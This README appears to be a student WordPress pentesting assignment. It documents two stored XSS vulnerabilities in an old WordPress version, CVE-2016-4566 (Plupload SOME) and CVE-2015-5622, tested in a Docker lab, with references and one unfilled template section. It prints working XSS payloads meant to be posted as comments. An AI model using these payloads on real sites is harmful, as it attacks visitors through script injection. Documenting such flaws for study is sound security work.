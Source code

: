 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			```json
			<button onclick="fire()">Click</button>
			<script>
			function fire() {
			open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
			setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
				}
			</script>	
			```
	3. After this comment posts sucessfully, any user that comes across the post will see a clickable button within the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
	4. In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org](https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.6
  - [ ] GIF Walkthrough: 
		<img src="AuthStoredXSS.gif" alt="Authenticated Stored XSS Walkthrough">
  - [ ] Steps to recreate: 
	
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			```json
			<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//'Hello World</a>	
			```
	3. After this comment posts sucessfully, any user that comes to the page and mouses over the area will see an alert box demonstrating the xss attack. The alert box will keep popping up everytime the area is hover overed with the mouse cursor. 
  
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/0f027d7d-674b-4a63-9603-25ea68069c1d)
	- [Link 2: cve.mitre - 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
	- [Link 3: cve.mitre - 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623)
	- [Link 4: wordpress](https://wordpress.org/news/2015/07/wordpress-4-2-3/)
	- [Link 5: twitter](https://twitter.com/klikkioy/status/624264122570526720)
	- [Link 6: klikki](https://klikki.fi/adv/wordpress3.html)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali](https://github.com/0xrutvij/wpVSkali)

GIFs created with [ScreenToGif](https://www.screentogif.com).

## Notes

- Other notes:

## License

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
